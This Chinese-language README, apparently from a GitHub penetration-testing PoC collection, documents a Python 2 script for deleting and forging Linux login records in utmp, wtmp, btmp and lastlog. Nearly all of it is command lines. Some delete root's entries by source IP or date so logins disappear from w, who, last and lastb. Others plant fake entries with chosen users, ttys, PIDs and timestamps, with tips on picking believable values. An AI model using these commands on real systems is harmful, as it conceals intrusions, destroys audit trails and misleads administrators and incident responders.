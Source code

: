 ## 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于[freebuf](https://www.freebuf.com/articles/system/141474.html)，文章备份:[渗透测试TIPS之删除伪造Linux系统登录日志.pdf](渗透测试TIPS之删除伪造Linux系统登录日志.pdf),但是文章脚本失效了,我保存了一份.
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本

## USEAGE
### 删除日志
1. 删除utmp记录，将自己从w或者who输出中隐藏
python clean --mode delete --type utmp --user root //删除用户为root的用户记录
python clean --mode delete --type utmp --user root --host "58.47.251.255" //删除用户为root且登录来源host为58.47.251.255的用户记录
2. 删除历史登录记录(wtmp)，隐藏last的记录
python clean --mode delete --type wtmp --user root --host "111.30.32.213" //删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录
python clean --mode delete --type btmp --user root --host "172.16.50.156" //删除用户为root且登录来源host为127.0.0.1的用户记录
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间
python clean --mode delete --type lastlog --host "172.16.50.1" //删除来源host的用户登录记录
python clean --mode delete --type lastlog --date "2017-8-2 22:46:34" //删除登录时间为2017-8-2 22:46:34的用户登录记录

### 伪造日志
1. 伪造utmp记录，将自己从w或者who输出中伪造
python clean --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" //伪造用户为nobody的用户记录
这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找
2. 伪造历史登录记录(wtmp)，伪造last的记录
python clean --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1"
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录
python clean --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" //伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录
4. 伪造lastlog记录
python clean --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" //伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录
